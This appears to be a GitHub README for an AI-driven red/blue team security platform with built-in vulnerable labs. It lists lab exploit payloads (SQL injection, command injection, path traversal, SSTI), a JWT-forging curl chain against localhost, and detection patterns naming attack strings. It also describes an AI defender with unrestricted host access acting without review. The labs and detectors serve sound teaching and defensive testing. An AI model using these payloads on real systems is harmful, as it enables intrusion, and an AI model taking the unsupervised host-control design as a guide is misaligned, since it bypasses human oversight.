


<p align="center">
  
</p>
<h1 align="center">Medusa</h1>
<h2 align="center"><em>Autonomous Red & Blue Teaming — Attack and Defend with AI</em></h2>

<p align="center" style="font-size: 120%;">
  Medusa is a dual-mode autonomous security platform. <b>Red Team:</b> chain reconnaissance, exploitation, and post-exploitation into a single LangGraph pipeline. Spawn parallel subagents, query a persistent knowledge graph, and generate audit trails with attack-chain diagrams. <b>Blue Team:</b> monitor live traffic through 18 attack pattern detectors, deploy per-endpoint AI subagents that analyze handler code and watch traffic in real time, execute deception countermeasures including live tarpit and network blocking, patch vulnerabilities by modifying source code, and maintain a shared knowledge graph across all defensive agents. From first packet to final report — offense and defense, both autonomous, both AI-driven.
</p>

<br/>

<p align="center">
  <b>85 Tools</b> &nbsp;·&nbsp; <b>48 Modules</b> &nbsp;·&nbsp; <b>51 Attack Skills</b> &nbsp;·&nbsp; <b>Parallel Subagents</b> &nbsp;·&nbsp; <b>LLM Supervisor</b> &nbsp;·&nbsp; <b>360 Tests</b> &nbsp;·&nbsp; <b>14 Test Files</b>
  <br/>
  <b>Blue Team SOC</b> &nbsp;·&nbsp; <b>18 Attack Detectors</b> &nbsp;·&nbsp; <b>Per-Endpoint AI Subagents</b> &nbsp;·&nbsp; <b>Live Tarpit</b> &nbsp;·&nbsp; <b>25-Endpoint Lab</b> &nbsp;·&nbsp; <b>Knowledge Graph</b> &nbsp;·&nbsp; <b>Codebase Patching</b> &nbsp;·&nbsp; <b>CI/CD</b> &nbsp;·&nbsp; <b>SECURITY.md</b>
  <br/>
  
  
  
  
  
  
</p>

<br/>

<p align="center">
  <a href="https://asciinema.org/a/dZLVx7Y85Itc68Mj">
    
  </a>
</p>
<p align="center">
  <a href="assets/demo.py"></a>
  <a href="https://asciinema.org"></a>
</p>
<p align="center">
  <em>Red Team: 15-step engagement — nmap >> .git leak >> JWT forge >> SSRF >> 3 flags. <code>$0.42</code> in API costs.<br/>Blue Team: 33 live requests monitored — SQLi, XSS, mass assignment, scanner recon detected and tarpitted in real time.</em>
</p>

<br/>

<h2 align="center">Terminal Shell (beta)</h2>

<p>
  v2.3 adds a full terminal shell (fork of opencode, MIT) so every backend tool
  is one prompt away. <code>./medusa-tui.sh</code> launches the shell with
  <b>medusa-red</b> as the default agent; the MCP bridge exposes <b>115 named
  tools</b> — <code>nmap_scan</code>, <code>gobuster_dir</code>, <code>sqlmap_scan</code>,
  <code>write_note</code>, <code>claim_flag</code>, ... — each returning the exact
  command run and its raw output, rendered in the session with reasoning and
  tool-call cards. <b>medusa-blue</b> is one Tab away for the SOC side. The
  classic Rich TUI still runs standalone (<code>python3 medusa/main.py</code>)
  or inside the shell via the <code>/classic-tui</code> command.
</p>

<br/>

<h2 align="center">Table of Contents</h2>

<p align="center">
  <a href="#who-is-this-for">Who Is This For?</a> &nbsp;·&nbsp;
  <a href="#from-recon-to-flag--one-continuous-pipeline">Pipeline</a> &nbsp;·&nbsp;
  <a href="#deliberately-vulnerable-labs----built-in">Labs</a> &nbsp;·&nbsp;
  <a href="#quick-start">Quick Start</a> &nbsp;·&nbsp;
  <a href="CONTRIBUTING.md">Contributing</a> &nbsp;·&nbsp;
  <a href="docs/adr/">ADRs</a> &nbsp;·&nbsp;
  <a href="#architecture">Architecture</a> &nbsp;·&nbsp;
  <a href="#configuration">Configuration</a> &nbsp;·&nbsp;
  <a href="#supervisor----zero-cost-oversight">Supervisor</a> &nbsp;·&nbsp;
  <a href="#subagent-system">Subagents</a> &nbsp;·&nbsp;
  <a href="#runtime-controls">Runtime</a> &nbsp;·&nbsp;
  <a href="#blue-team----autonomous-active-defense">Blue Team</a> &nbsp;·&nbsp;
  <a href="#testing">Testing</a> &nbsp;·&nbsp;
  <a href="#portability">Portability</a> &nbsp;·&nbsp;
  <br/>
  <a href="#new-here-start-with-the-classic-tui">Start Here (Classic TUI)</a> &nbsp;·&nbsp;
  <a href="#dual-mode-system----complete-reference">Dual-Mode Reference</a> &nbsp;·&nbsp;
  <a href="#terminal-shell----full-guide">Shell Guide</a> &nbsp;·&nbsp;
  <a href="#mcp-bridge----reference">MCP Bridge</a> &nbsp;·&nbsp;
  <a href="#walkthrough----red-team-engagement">Red Walkthrough</a> &nbsp;·&nbsp;
  <a href="#walkthrough----blue-team-defense">Blue Walkthrough</a> &nbsp;·&nbsp;
  <a href="#troubleshooting--faq">FAQ</a> &nbsp;·&nbsp;
  <a href="#glossary">Glossary</a> &nbsp;·&nbsp;
  <a href="#roadmap----v23-beta">Roadmap</a> &nbsp;·&nbsp;
  <a href="#maintainers">Maintainers</a>
</p>

<br/>

> **LEGAL DISCLAIMER**: This tool is intended for **authorized security testing**, **educational purposes**, and **research only**. Never use this system to scan, probe, or attack any system you do not own or have explicit written permission to test. Unauthorized access is **illegal** and punishable by law. By using this tool, you accept **full responsibility** for your actions.

<br/>

---

<h2 align="center">Who Is This For?</h2>

<table>
<tr>
<td width="25%" valign="top">

<p align="center"></p>

### Bug Bounty Hunters
Automate reconnaissance across thousands of targets. Let Medusa handle the repetitive work -- subdomain enumeration, port scanning, directory brute-forcing, technology fingerprinting -- while you focus on the high-value vulnerabilities that require human intuition. The knowledge graph remembers every blocked WAF pattern, every confirmed CVE, and every discovered endpoint so you never test the same dead end twice. Generate professional reports with attack-chain diagrams for your submission write-ups.

</td>
<td width="25%" valign="top">

<p align="center"></p>

### Security Researchers
Explore novel attack paths with an agent that chains techniques across protocols. SSRF to internal APIs, JWT algorithm confusion to privilege escalation, GraphQL introspection to cross-tenant data access -- Medusa handles the multi-step chains while you direct the strategy. Built-in labs with 23 deliberate vulnerabilities across two SaaS applications let you benchmark the agent's capabilities and understand how AI reasons through attack surfaces.

</td>
<td width="25%" valign="top">

<p align="center"></p>

### CTF Players
Speed-run capture-the-flag challenges with an agent that parallelizes reconnaissance across multiple services simultaneously. Deploy subagents to attack different ports, different endpoints, and different vulnerability classes all at once. The supervisor watches for missed flags, repeating patterns, and unexploited vulnerabilities -- keeping the agent on track when you need to step away. Use the built-in CloudBoard Next lab (15 vulns, 5 flags) to practice and tune your prompt engineering.

</td>
<td width="25%" valign="top">

<p align="center"></p>

### SOC Defenders & AppSec Teams
Deploy autonomous defense that watches every endpoint in real time. Medusa Blue Team analyzes your codebase, spawns an AI subagent per endpoint, and monitors live traffic through 18 attack pattern detectors. When an attack is detected — SQL injection, XSS, mass assignment, scanner reconnaissance — the AI decides the response: tarpit the attacker (real 5-8s delays per request), block at the network level, deploy honeypot canary tokens, or patch the vulnerable code directly. The knowledge graph tracks every attacker across sessions. The 25-endpoint vulnerable lab lets you train against realistic multi-step attack chains. Deception over blocking — a deceived attacker reveals their entire toolkit.

</td>
</tr>
</table>

<br/>

---

<h2 align="center">Dual Pipelines — Attack & Defend</h2>
<p align="center">
  <b><samp><big>Red: Recon >> Exploit >> Escalate >> Flag >> Report</big></samp></b>
  <br/>
  <b><samp><big>Blue: Monitor >> Detect >> AI-Decide >> Deceive/Block/Patch >> Learn</big></samp></b>
  <br/><br/>
  Medusa operates in two autonomous modes. <b>Red Team</b> chains reconnaissance through exploitation using a LangGraph state machine — parallel subagents, persistent knowledge graph, zero-cost supervisor oversight, structured audit trails, and comprehensive Markdown reports with Mermaid attack-chain diagrams. <b>Blue Team</b> monitors live HTTP traffic through 18 regex pattern detectors, routes anomalies to an AI decision engine with full attacker context from a shared knowledge graph, deploys deception (tarpit, honeypot, canary tokens) or blocking (pfctl/iptables) instantly, and can patch vulnerable source code by writing directly to the target filesystem — all coordinated by per-endpoint AI subagents.
</p>

<br/>

<h2 align="center">Deliberately Vulnerable Labs -- Built In</h2>
<p align="center">
  <em>8 hands-on labs with 50+ total vulnerabilities across realistic SaaS applications. No Docker, no external dependencies — just Python and Flask.</em>
</p>
<br/>


### CloudBoard Next -- 3-Service Modern SaaS

> **Ports 5800, 5801, 5802** -- **15 vulnerabilities** -- **5 flags**

A realistic multi-service SaaS with JWT auth, GraphQL, SSE real-time notifications, multi-tenant isolation, OAuth, and a legacy admin panel. Forces the agent to chain attacks across services.

```bash
python3 medusa/lab/cloudboard_next/app.py
```

<table>
<tr><th>#</th><th>Vulnerability</th><th>Location</th><th>Difficulty</th><th>Attack Chain</th></tr>
<tr><td>1</td><td><b>SQLi Login Bypass</b></td><td><code>POST /login</code> :5800</td><td>Easy</td><td><code>admin' OR '1'='1' --</code></td></tr>
<tr><td>2</td><td><b>JWT alg:none + kid injection</b></td><td>All JWT endpoints</td><td>Medium</td><td>Forge admin token >> access /admin</td></tr>
<tr><td>3</td><td><b>OAuth open redirect</b></td><td><code>/oauth/authorize</code></td><td>Medium</td><td>Token theft via redirect_uri bypass</td></tr>
<tr><td>4</td><td><b>GraphQL introspection + IDOR</b></td><td><code>/graphql</code></td><td>Medium</td><td>Schema dump >> cross-tenant user query</td></tr>
<tr><td>5</td><td><b>GraphQL mass assignment</b></td><td><code>updateProfile</code> mutation</td><td>Medium</td><td>Set role=admin on any user</td></tr>
<tr><td>6</td><td><b>SSTI (email templates)</b></td><td><code>/admin/templates</code></td><td>Medium</td><td><code>{{config}}</code> >> server RCE</td></tr>
<tr><td>7</td><td><b>Stored XSS + SSE broadcast</b></td><td>Comments >> <code>/ws</code></td><td>Medium</td><td><code>&lt;script&gt;</code> >> all connected clients</td></tr>
<tr><td>8</td><td><b>SSRF (webhook tester)</b></td><td><code>/admin/webhooks/test</code></td><td>Hard</td><td>>> :5801 internal API >> flag</td></tr>
<tr><td>9</td><td><b>XXE (SVG OCR upload)</b></td><td><code>/files/ocr</code></td><td>Hard</td><td>DOCTYPE entity >> file read</td></tr>
<tr><td>10</td><td><b>Command injection (export)</b></td><td><code>/admin/export</code></td><td>Medium</td><td><code>; cat /tmp/flag</code></td></tr>
<tr><td>11</td><td><b>Exposed .git directory</b></td><td><code>/.git/HEAD</code></td><td>Easy</td><td>>> JWT secret + API keys leak</td></tr>
<tr><td>12</td><td><b>Source map leak</b></td><td><code>/static/js/app.js.map</code></td><td>Easy</td><td>>> <code>FLAG{src_map_leak}</code></td></tr>
<tr><td>13</td><td><b>IDOR profile view</b></td><td><code>/profile/view/&lt;id&gt;</code></td><td>Easy</td><td>View any user across tenants</td></tr>
<tr><td>14</td><td><b>Internal API no auth</b></td><td><code>:5801/api/admin/*</code></td><td>Medium</td><td>Header spoof >> config + flag</td></tr>
<tr><td>15</td><td><b>Legacy admin weak auth</b></td><td><code>:5802/login</code></td><td>Easy</td><td>Hardcoded token bypass</td></tr>
</table>

```bash
# Rapid exploitation chain
curl -s http://127.0.0.1:5800/.git/COMMIT_EDITMSG              # >> jwt_s3cr3t_cbn_2026
python3 -c "import jwt; print(jwt.encode({'user_id':1,'role':'admin'},'jwt_s3cr3t_cbn_2026',algorithm='HS256'))"
curl -s http://127.0.0.1:5800/admin/flag -H "Authorization: Bearer <token>"  # >> FLAG{admin_panel_rce}
curl -s -X POST http://127.0.0.1:5800/admin/webhooks/test \
  -d 'url=http://127.0.0.1:5801/api/admin/flag'                           # >> FLAG{internal_ssrf}
```

---

### DevOps Dashboard -- RCE Lab

> **Port 5700** -- **8 vulnerabilities** -- **Multi-step chain**

Internal monitoring tool with command injection, SSTI, SQL injection, path traversal, and hardcoded credentials.

```bash
python3 medusa/lab/devops_dashboard/app.py
```

| # | Vulnerability | Endpoint | Payload |
|:-:|:-------------|:---------|:--------|
| 1 | SQL injection | `POST /login` | `admin' OR '1'='1' --` |
| 2 | Default credentials | `/login` | `admin:DevOpsAdmin#2026!` |
| 3 | Command injection | `/admin/ping` | `; cat /tmp/raxaid_flag.txt` |
| 4 | SSTI | `/settings` | `{{config}}` >> server config leak |
| 5 | Path traversal | `/logs?file=...` | `../../etc/passwd` |
| 6 | Hardcoded API key | `/static/js/app.js` | `dk_api_4a2f8b1c9d3e` |
| 7 | IDOR | `/api/users/<id>` | Cross-user data access |
| 8 | File upload bypass | `/admin/files` | `.pyc`/`.sh` >> `/admin/exec` |

---

<br/>

<h2 align="center">Quick Start</h2>

### Prerequisites

| Requirement | Details |
|:------------|:--------|
| **Python** | 3.10+ |
| **OS** | macOS, Linux, Windows |
| **API Key** | DeepSeek, HuggingFace, Gemini, or Anthropic |

```bash
git clone https://github.com/0xwi11iam/Medusa.git
cd medusa-security
pip install -r medusa/requirements.txt

# Set your API key
echo "DEEPSEEK_API_KEY=sk-..." > medusa/.env

# Launch — choose Red Team, Blue Team, or Settings
python3 medusa/main.py
```

| Mode | Select | Description |
|:-----|:-------|:------------|
| **Red Team** | `1` | Autonomous offensive agent — reconnaissance, exploitation, reporting |
| **Blue Team** | `2` | Autonomous SOC — traffic monitoring, AI-driven deception, live tarpit |
| **Settings** | `3` | Configure provider, model, temperature, cost caps |

```bash
# Blue Team quick test: start the vulnerable lab separately
python3 medusa/lab/blue_target/vulnerable_app.py &

# Then launch Medusa > Blue Team > built-in lab (option 2)
# Once baseline is established (25 requests), fire attacks from another terminal:
curl -X POST http://127.0.0.1:5906/auth/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin'"'"' OR '"'"'1'"'"'='"'"'1","password":"x"}'
```

---

## Architecture



---

## Configuration

```json
{
    "provider": "deepseek",
    "deepseek_model": "deepseek-v4-flash",
    "max_iterations": 100,
    "temperature": 0.4,
    "supervisor_interval": 5,
    "cost_hard_cap_usd": 500.0,
    "mode_deploy_subagent": true,
    "mode_audit_trail": true,
    "mode_hotreload_skills": true,
    "report_auto_export": true,
    "report_format": "markdown",
    "subagent_count": 2
}
```

| Provider | Models | Env Var |
|:---------|:-------|:--------|
| **DeepSeek** | `deepseek-v4-flash`, `deepseek-v4-pro` | `DEEPSEEK_API_KEY` |
| **HuggingFace** | Qwen, GLM, DeepSeek via TGI | `HF_API_KEY` |
| **Gemini** | `gemini-2.5-pro`, `gemini-2.5-flash` | `GEMINI_API_KEY` |
| **Anthropic** | `claude-opus-4-7`, `claude-sonnet-4-6` | `ANTHROPIC_API_KEY` |

---

## Supervisor -- Zero-Cost Oversight

Runs silently every 5 iterations. Pure pattern matching -- **no LLM calls, zero API cost**.

| Pattern | Trigger | Intervention |
|:--------|:--------|:-------------|
| Loop | Same tool 3x consecutively | *"Try a DIFFERENT approach. Switch tool or attack vector."* |
| Bookkeeping Trap | 4+ turns of notes/jobs | *"STOP documenting. START exploiting NOW."* |
| Missed Flag | `FLAG{...}` found but not claimed | *"Claim it IMMEDIATELY with claim_flag."* |
| Unfollowed Vuln | Vuln discovered, no follow-up | *"Test the vulnerability NOW. Don't pivot."* |
| Failing Subagents | 3+ subagents returned empty | *"Subagents keep failing. Run the task yourself."* |
| Stall | 5 turns with no new info | *"Radically change approach or generate report."* |

---

## Subagent System

```json
{
  "action": "deploy_subagent",
  "subagent_task": "SQLi on /login || XSS on /search || SSTI on /profile",
  "thought": "Parallelizing attack vectors across all endpoints"
}
```

| Property | Value | Description |
|:---------|:------|:------------|
| Max concurrent | 3 | Controlled via semaphore |
| Max steps | 5 | Per subagent iteration limit |
| LLM timeout | 45s | Per subagent LLM call |
| Tool timeout | 60s | Per tool execution |
| Total timeout | 95s | Hard cap on deployment |
| Crash isolation | Yes | One failure doesn't kill others |
| Chain persistence | Yes | Results in chain_findings_memory |

---

## Runtime Controls

| Command | Context | Action |
|:--------|:--------|:-------|
| `Ctrl+C` | During run | Pause agent, enter guidance mode |
| `/report` | Paused | Force-generate Markdown report + end audit |
| `/audit` | Paused | Print current audit trail |
| `/state` | Paused | Print agent state (phase, iterations, cost) |
| `/sessions` | Paused | List saved sessions for replay |

```
#1 + informational
  Starting reconnaissance on ports 5800, 5801, 5802...
  > execute_terminal nmap -sV -sC -p 5800,5801,5802 127.0.0.1
  output BG JOB a7ebbf04 -- Check: job_status a7ebbf04

Supervisor: You found a FLAG in the output but didn't claim it!
```

---

## Testing

```bash
python3 -m pytest medusa/tests/ -v -q
```

```
medusa/tests/test_agent_helpers.py .......                                [  8%]
medusa/tests/test_ai_calls.py ...                                        [ 12%]
medusa/tests/test_blue_team.py ...............                           [ 30%]
medusa/tests/test_core.py .................                              [ 50%]
medusa/tests/test_graph.py sss..s...s.ss.....                            [ 75%]
medusa/tests/test_integration.py ..........                              [ 87%]
medusa/tests/test_tools.py ............                                  [100%]

                        83 passed, 7 skipped in ~1s
```

| Test File | Tests | Coverage |
|:----------|:-----:|:---------|
| `test_agent_helpers.py` | 20 | Prompt safety, guardrails, error classes, JSON utils, productivity, state, skill loader, workspace FS |
| `test_ai_calls.py` | 8 | Config loading, provider routing, API key validation |
| `test_blue_team.py` | 17 | AI engine, feed routing, scorer, deception, firewall, SOC, tarpit |
| `test_core.py` | 17 | Guardrails (dangerous commands, workspace paths), secret patterns, error types, config validation |
| `test_graph.py` | 19 | LangGraph state machine, node transitions, tool dispatch, subagent orchestration |
| `test_integration.py` | 10 | End-to-end pipelines, multi-step chains, state persistence |
| `test_e2e_blue.py` | 4 | **Live lab integration** — boots real Flask app, fires real SQLi, asserts pattern detection → flag → tarpit → measurable delay, KG recording |
| `test_dispatch.py` | 29 | Tool routing hub — pure helpers, self-kill protection, guardrails, file ops (workspace + allowlist), CVSS/KEV parsing, job tracking, route_tool dispatch |
| `test_state_helpers.py` | 80 | State models (TodoItem, ExecutionStep, TargetInfo), formatting helpers, parsing (LLM decisions, token extraction, vuln classification), productivity (loop detection, axis tracking, fingerprints), error classification, hard guardrails, module loader, provider routing/cost estimation, supervisor pattern detection |
| `test_tools.py` | 43 | Guardrails behavioral (14 blocked patterns + edge cases), workspace (symlinks, allowlist, injection), constants (thresholds, ports, models, tmp dir) |

**CI/CD:** GitHub Actions matrix (Python 3.10/3.11/3.12) with pytest + coverage (fail_under=30%), pyright type check, ruff lint, pip-audit dep scan.

---

## Portability

All paths resolve via `Path(__file__).resolve().parent`. Rename the project folder freely -- everything still works.

```
medusa/main.py           >> os.path.dirname(os.path.dirname(os.path.abspath(__file__)))
medusa/modules/loader.py >> Path(__file__).resolve().parent.parent
medusa/tools/dispatch.py >> Path(__file__).resolve().parent.parent
```

Requirements: `medusa/` and `Modules/` at same level, `medusa_agent/` at project root, symlink `medusa/medusa_agent >> ../medusa_agent`

---

<h2 align="center">Blue Team — Autonomous Active Defense</h2>

<p align="center">
  <b>AI-Powered SOC</b> &nbsp;·&nbsp; <b>18 Attack Pattern Detectors</b> &nbsp;·&nbsp; <b>Per-Endpoint Subagents</b> &nbsp;·&nbsp; <b>Deception Arsenal</b> &nbsp;·&nbsp; <b>Session Knowledge Graph</b> &nbsp;·&nbsp; <b>25-Endpoint Vulnerable Lab</b> &nbsp;·&nbsp; <b>Codebase Manipulation</b> &nbsp;·&nbsp; <b>Live Tarpit</b>
</p>

<p align="center">
  <em>Medusa Blue Team is a fully autonomous defensive security agent. It monitors live traffic in real time, detects attacks through dual-path analysis (pattern matching + AI reasoning), deploys deception countermeasures, modifies the target codebase to patch vulnerabilities, and maintains a shared knowledge graph across all subagents. Deception over blocking. Intelligence over reaction. A blocked attacker returns with a different IP — a deceived attacker reveals their entire toolkit.</em>
</p>

<br/>

<h3>Quick Start — Blue Team</h3>

```bash
# Terminal 1: Launch Blue Team
python3 medusa/main.py
# Select 2 (Blue Team) → 2 (Built-in lab on :5906)

# Terminal 2: Fire attacks once baseline is established (25 requests)
curl -X POST http://127.0.0.1:5906/auth/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin'"'"' OR '"'"'1'"'"'='"'"'1","password":"x"}'

curl -H "X-Admin: true" http://127.0.0.1:5906/admin

curl -X POST http://127.0.0.1:5906/auth/register \
  -H "Content-Type: application/json" \
  -d '{"username":"eviladmin","password":"pass123","role":"admin"}'
```

<br/>

<h3>Architecture — Defense Pipeline</h3>



<h3>Request Processing — Three Tiers</h3>

Every HTTP request flows through a three-tier analysis pipeline designed to minimize AI cost while maximizing detection accuracy:

<table>
<tr><th>Tier</th><th>Trigger</th><th>Display</th><th>AI Cost</th><th>Response</th></tr>
<tr>
<td><b>NORMAL</b></td>
<td>Matches known-safe baseline pattern</td>
<td>One-line dimmed entry</td>
<td><code>$0.00</code></td>
<td>None — logged for audit only</td>
</tr>
<tr>
<td><b>ANOMALOUS</b></td>
<td>Deviates from baseline, no attack patterns detected</td>
<td>One-line with yellow <code>??</code> sigil</td>
<td><code>~$0.001</code> per request</td>
<td>AI classifies as benign → added to baseline<br/>AI classifies as threat → promoted to INVESTIGATED</td>
</tr>
<tr>
<td><b>INVESTIGATED</b></td>
<td>Attack pattern detected OR AI flagged as threat</td>
<td>Full three-panel Rich display</td>
<td><code>~$0.002</code> per request</td>
<td>AI decides: BLOCK / DECEIVE / PATCH / LOG / REDIRECT<br/>Commands executed immediately<br/>Code changes written to disk</td>
</tr>
</table>

<h4>Baseline Learning (First 25 Requests)</h4>

During the baseline phase, all requests are shown as NORMAL while the system builds pattern profiles. The <code>SmartNormalizer</code> hashes each request by <code>(method, normalized_path, param_keys, body_structure)</code> — normalizing away specific IDs, timestamps, and values so minor variations don't break pattern matching. After 25 requests, the baseline locks and AI analysis activates. The system displays <code>BASELINE ESTABLISHED</code> with a green banner.

<h3>Pre-AI Pattern Detector — 18 Attack Signatures</h3>

Before any request reaches the AI, it passes through a zero-cost regex pattern matcher. If any pattern fires with sufficient confidence, the request is INVESTIGATED immediately — the full panel displays while the AI performs deep analysis in parallel.

<table>
<tr><th>#</th><th>Pattern</th><th>Weight</th><th>Example Match</th></tr>
<tr><td>1</td><td>SQL Injection</td><td>5</td><td><code>admin' OR '1'='1</code>, <code>UNION SELECT</code>, <code>'; DROP TABLE</code></td></tr>
<tr><td>2</td><td>SQL Injection (Blind)</td><td>5</td><td><code>' OR SLEEP(5)</code>, <code>BENCHMARK()</code>, <code>pg_sleep</code></td></tr>
<tr><td>3</td><td>XSS</td><td>5</td><td><code>&lt;script&gt;</code>, <code>onerror=</code>, <code>javascript:</code>, <code>alert()</code></td></tr>
<tr><td>4</td><td>Path Traversal</td><td>4</td><td><code>../../etc/passwd</code>, <code>C:\Windows\</code>, <code>/winnt/</code></td></tr>
<tr><td>5</td><td>SSRF</td><td>5</td><td><code>169.254.169.254</code>, <code>metadata.google.internal</code></td></tr>
<tr><td>6</td><td>Command Injection</td><td>5</td><td><code>; id</code>, <code>| whoami</code>, <code>$(cat /etc/passwd)</code>, backtick injection</td></tr>
<tr><td>7</td><td>SSTI</td><td>4</td><td><code>{{7*7}}</code>, <code>${7*7}</code>, <code><%= 7*7 %></code></td></tr>
<tr><td>8</td><td>XXE</td><td>5</td><td><code>&lt;!ENTITY xxe SYSTEM</code>, <code>&lt;!DOCTYPE foo [</code></td></tr>
<tr><td>9</td><td>JWT Attack</td><td>3</td><td>JWT token in request (alg:none, key confusion)</td></tr>
<tr><td>10</td><td>Deserialization</td><td>5</td><td><code>pickle.loads</code>, <code>yaml.load(</code>, <code>O:8:"stdClass"</code></td></tr>
<tr><td>11</td><td>LDAP Injection</td><td>4</td><td><code>(&(uid=*)(|</code>, <code>*)(uid=*))</code></td></tr>
<tr><td>12</td><td>NoSQL Injection</td><td>4</td><td><code>{"$ne": null}</code>, <code>{"$gt": ""}</code>, <code>{"$regex": ".*"}</code></td></tr>
<tr><td>13</td><td>Scanner User-Agent</td><td>4</td><td><code>sqlmap/1.7</code>, <code>Nmap Scripting Engine</code>, <code>Nikto</code>, <code>Burp Suite</code></td></tr>
<tr><td>14</td><td>Mass Assignment</td><td>4</td><td><code>"role":"admin"</code>, <code>"is_admin":true</code>, <code>"isAdmin":true</code></td></tr>
<tr><td>15</td><td>Auth Bypass Header</td><td>5</td><td><code>X-Admin: true</code>, <code>X-Role: admin</code>, <code>X-Forwarded-For: 127.0.0.1</code></td></tr>
<tr><td>16</td><td>Brute Force</td><td>3</td><td>Multiple password attempts, Hydra/Medusa/Ncrack UA</td></tr>
<tr><td>17</td><td>File Inclusion</td><td>5</td><td><code>php://filter</code>, <code>php://input</code>, <code>data://text</code>, <code>file:///etc</code></td></tr>
<tr><td>18</td><td>GraphQL Attack</td><td>3</td><td><code>__schema</code>, <code>__typename</code>, deep nested queries</td></tr>
</table>

<p><b>Pattern Score Threshold:</b> 5. Any request scoring 5+ triggers immediate INVESTIGATED display and AI deep analysis. Repeat offenders from the same IP get +1 effective score per flag — a persistent attacker escalates from DECEIVE to BLOCK automatically. The pattern detector has veto power: even if the AI classifies a pattern-matched attack as benign, the system applies fallback tarpit defense.</p>

<h3>AI Decision Engine</h3>

The <code>BlueAIEngine</code> is the central nervous system. For every anomalous or pattern-matched request, it constructs a context-rich prompt containing:

<ul>
<li><b>Full untruncated request</b> — method, path, all headers, complete body, query parameters, source IP, user-agent</li>
<li><b>Attacker history from the Knowledge Graph</b> — previous flags, attack types, scores, defenses already deployed against this IP</li>
<li><b>Endpoint handler source code</b> — the actual vulnerable function extracted from the target codebase</li>
<li><b>Subagent intelligence</b> — risk score, vulnerability analysis, defense recommendations from the endpoint's dedicated subagent</li>
<li><b>Full toolbox description</b> — available commands, code change format, deception options, macOS syntax guide</li>
</ul>

The AI receives this context and returns a structured JSON decision:

```json
{
  "verdict": "FLAGGED",
  "score": 9,
  "action": "DECEIVE",
  "attack_analysis": "SQL injection in username field using OR 1=1 bypass — targeting authentication",
  "attacker_assessment": "Automated scanner, low skill, using sqlmap or similar tool",
  "reasoning": "Classic SQLi pattern with UNION SELECT capability. Endpoint uses raw string concatenation in SQL query. High confidence. Should tarpit and deploy parameterized query patch.",
  "commands_to_run": [
    "echo '{\"127.0.0.1\":{\"delay\":5}}' > /tmp/blue_tarpit.json"
  ],
  "code_changes": [
    {
      "file": "vulnerable_app.py",
      "change": "Parameterize SQL query in login endpoint",
      "new_content": "def login():\n    ...\n    user = conn.execute('SELECT * FROM users WHERE username=?', (username,)).fetchone()"
    }
  ]
}
```

The system then executes every command via <code>subprocess.run()</code>, writes every code change to the target filesystem, deploys tarpit/blocking as specified, and records everything in the Knowledge Graph. The AI has unrestricted access to the host — it can run pfctl firewall rules, restart services, modify source code, create decoy files, and deploy honeypot endpoints.

<h4>Decision Authority</h4>

The AI is the sole decision-maker — there are no hardcoded thresholds. It considers:

<ul>
<li><b>Novel attack from new IP:</b> DECEIVE to gather intelligence — tarpit, honeypot responses, canary tokens</li>
<li><b>Repeated attack from known IP:</b> Escalate — if previously tarpitted, now BLOCK at network level</li>
<li><b>Critical vulnerability (RCE, data exfiltration):</b> BLOCK immediately + PATCH the vulnerable code</li>
<li><b>Scanner/probe:</b> DECEIVE with honeypot — waste their time, feed fake data, track their toolkit</li>
<li><b>Benign anomaly:</b> LOG only — add to normal baseline for future skip</li>
</ul>

<h4>API Error Resilience</h4>

